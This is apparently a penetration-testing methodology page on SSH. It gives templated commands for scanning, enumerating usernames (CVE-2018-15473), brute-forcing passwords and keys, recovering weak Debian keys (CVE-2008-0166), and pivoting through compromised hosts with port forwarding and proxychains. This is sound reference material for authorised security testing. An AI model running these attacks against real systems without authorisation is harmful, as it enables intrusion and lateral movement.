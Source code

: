 # SSH - Methodology

### Network scan

Nmap can be used to scan the network for SSH services:

```
nmap -v -p 22 -A -oA nmap_smb <RANGE/CIDR>
```

### User enumeration (CVE-2018-15473)

The OpenSSH service for all versions < 7.7 is vulnerable to username
enumeration.

The Python script `sshUsernameEnumExploit` as well as the `Metasploit` module
`auxiliary/scanner/ssh/ssh_enumusers` can be used to validate the presence of
a system user:

```
# [--threads THREADS] - Default to 5. If more than 10 are used, the OpenSSH service often gets overwhelmed
# [--outputFile OUTPUTFILE] [--outputFormat {list,json,csv}]
sshUsernameEnumExploit.py [--port PORT]  (--username <USERNAME> | --userList <USERLIST>) <HOST>

msf> use auxiliary/scanner/ssh/ssh_enumusers
```

### Supported authentication methods

A verbose connection attempt will display the authentication methods supported
by the server:

```
ssh -v <HOST>
debug1: Authentications that can continue:
```

###### Authentication methods available

The following authentication methods are possible:

  - *password authentication*: Simple request for a single password with no
  specific prompt

  - *keyboard interactive*: More complex request for arbitrary number of pieces
  of information. Can be hooked to two-factor (or multi-factor) authentications
  (PAM, Kerberos, etc.)  

  - *public key authentication*: Clients must provide a public key in the list
  of allowed keys on the server and encrypts a certain data packet using the
  private key. The public key authentication method is the only method that
  both client and server software are required to implement.

  - *host-based authentication*: Host-based authentication is used to
  restrict client access only to certain hosts. This method is similar to
  public key authentication; however, the server additionally maintains a list
  of hosts mapped to their public keys and will only accept connection with the
  keys from the pre recorded host.

###### Legacy DSA public key authentication

To connect to a server using DSA keys with a modern OpenSSH client, the
*PubkeyAcceptedKeyTypes +ssh-dss* option must be added to the client config:

```
echo 'PubkeyAcceptedKeyTypes +ssh-dss' > ~/.ssh/config
```

If the client is not correctly configured, the following debug error message
will be returned during the authentication process:

```
debug1: Skipping ssh-dss key ... - not in PubkeyAcceptedKeyTypes
```

### Authentication brute force

###### Password & keyboard interactive authentication

The `patator` Python script or the `Metasploit` module
`auxiliary/scanner/ssh/ssh_login` can be used to brute force credentials
through the password and keyboard interactive authentication methods:

```
# auth_type: auth type to use <password|keyboard-interactive>
patator ssh_login host=<HOST> user=<USERNAME> password=<PASSWORD> -x ignore:mesg='Authentication failed.'
patator ssh_login host=<HOST> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:mesg='Authentication failed.'

msf> auxiliary/scanner/ssh/ssh_login
```

###### Public keys authentication

The crowbar Python Script can be used to brute force SSH keys.  

While an exhaustive attack is not possible, the key based brute force can be
used for lateral movement once a private key could be compromised.

```
python crowbar.py -b sshkey (-u <USERNAME> | -U USERNAME_FILE) -k <KEY_FILE | KEY_FOLDER> -s <CIDR>
```

A repository of static authorized SSH keys "hardcoded" into software and
hardware products is available:

```
https://github.com/rapid7/ssh-badkeys
```

### Known vulnerabilities

###### OpenSSL Predictable PRNG (CVE-2008-0166)

Due to a default of implementation of the seeding process in the OpenSSL
package, all SSL and SSH keys generated on Debian-based systems (Ubuntu,
Kubuntu, etc) between September 2006 and May 13th, 2008 are cryptographically
weak.

All possible combination of public / private RSA (2048 and 4096 bits) and DSA
(1024 bits) keys can be downloaded here:

```
https://github.com/g0tmi1k/debian-ssh/tree/master/common_keys
https://github.com/g0tmi1k/debian-ssh/tree/master/uncommon_keys
```

To retrieve a private key if its public counterpart could somehow be extracted
from the server (/home/user/.ssh/authorized_keys through LFI or file system
disclosure, etc.):

```
# Only take the base64 content of the public key in format PEM
grep -rl <KEY> <FOLDER_RSA|FOLDER_DSA>
```

### SSH tunneling & ports forwarding

SSH port forwarding is a mechanism that allows for connection tunneling
through a SSH service.

They are three main types of SSH port forwarding: local port forwarding, remote
port forwarding and dynamic port forwarding.

###### Local port forwarding

In local port forwarding, a port on the local system (attacking machine) is
routed to a port on a remote server through the SSH service of a compromised
host. For example, a compromised Internet facing server exposing a SSH service
could be used to route traffic to the SMB ports of internal servers to conduct
`PsExec` like connections directly from the attacking system without the need
to deploy tools on the compromised server.

The following command can be used to configure a local port forwarding:

```
# -n: no keyboard input to be expected (redirects stdin from /dev/null, actually preventing reading from stdin)
# -N & -T: prevents the opening of a tty session and specify that no command be executed

ssh -nNT -L <LOCAL_PORT>:<TARGET_HOSTNAME | TARGET_IP>:<TARGET_REMOTE_PORT> <USERNAME>@<SSH_HOSTNAME | SSH_IP>
```

Note: local port forwarding can be used to access locally (localhost) exposed
services on the SSH server.

###### Remote port forwarding

Conceptually similar to the local port forwarding, the remote port forwarding
can however be used for the opposite effect. Indeed, in remote port forwarding,
the SSH service will open a listening port on the server and will route any
connection received on this port to the configured host and port.

The following command can be used to configure a remote port forwarding:

```
ssh -R <TARGET_REMOTE_PORT>:<TARGET_HOSTNAME | TARGET_IP>:<SSH_SERVER_LOCAL_PORT> <USERNAME>@<SSH_HOSTNAME | SSH_IP>
```

###### Dynamic port forwarding

Contrary to local and remote port forwarding, dynamic port forwarding allows
for the complete tunneling of full IP and ports range. Thus, dynamic SSH port
forwarding can be used to pivot into the internal network from a compromised
host and access any servers and their services.

In dynamic port forwarding, the SSH service will serve as a proxy, routing all
connections to their destination, and a utility such as `proxychains` will be
used to redirect tools connections to the listening SSH proxy port.

The following commands can be used to configure the SSH service in proxy mode
and redirect tools connections through it:

```
ssh -nNT -D <LOCAL_PORT> <USERNAME>@<SSH_HOSTNAME | SSH_IP>

# Edit proxychains.conf
socks5 127.0.0.1 <LOCAL_PORT>

# Run tools through proxychains
proxychains <[...]>
```
